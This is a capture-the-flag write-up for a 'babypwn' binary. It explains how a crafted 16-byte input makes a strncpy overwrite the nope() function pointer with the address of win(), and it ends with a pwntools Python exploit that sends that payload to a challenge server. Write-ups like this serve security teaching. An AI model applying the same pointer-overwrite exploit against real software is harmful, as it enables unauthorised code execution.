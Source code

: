 Okay so since we want `rax+rdx == rbp-0x40`, we simply do `rbp-0x40 - rax` to find out what value we want rdx to be. In this case, we are told that we want `rdx` to finally end up with the value `0xfffffffffffffff0` (after the `shl` and `movsxd` instructions).

`0xfffffffffffffff0` is just `0xfffffffffffffffe` left shifted by 3. We know this because the last byte `0xfe` is `1111 1110` in binary, and when left shifted by 3, gives us `1111 0000` in binary, which is `0xf0` in hex.

`0xfffffffffffffffe` is just the sign extended version of `0xfffffffe`, and therefore, what we want is for the last 4 bytes of our input to be `0xfffffffe`. Since the four bytes before it won't matter, so we can just pass in `0xfffffffe00000000`. Realistically? The 0's can be anything as they don't affect anything. 

So, now the plan is to make the first 8 bytes of our input the address of the `win()` function. The second 8 bytes will be `0xfffffffe00000000` (interpreted as `\x00\x00\x00\x00\xfe\xff\xff\xff` due to little endianness). The program is gonna do the calculations for us, and call `strncpy(rbp-0x40, rbp-0x50, 8)` which will copy the address of the `win()` function and replace the address of the `nope()` function with it. 

The exploit is shown below. We also account for the fact that the program wants our input 5 times in a row before continuing:
```python
#!/usr/bin/env python2

from pwn import *

HOST, PORT = '68.183.158.95', 8990
BINARY = './babypwn'

elf = ELF(BINARY)

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

def debug(breakpoints):
	gdbscript = ''

	for bp in breakpoints:
		gdbscript += 'b *0x{:x}\n'.format(bp)
	gdb.attach(p, gdbscript=gdbscript)

context.terminal = ['tmux', 'new-window']
context.arch = 'amd64'

p = start()
if not args.REMOTE and args.GDB:
	debug([0x00400994])

win = elf.symbols['win']
log.info('win: ' + hex(win))

payload = p64(win) # The first 8 bytes of our input
payload += p64(0xfffffffe00000000) # The second 8 bytes of our input
payload += '\n'*6 # Send no input for the remaining times, so we don't affect anything

p.send(payload)

p.interactive()

``` 
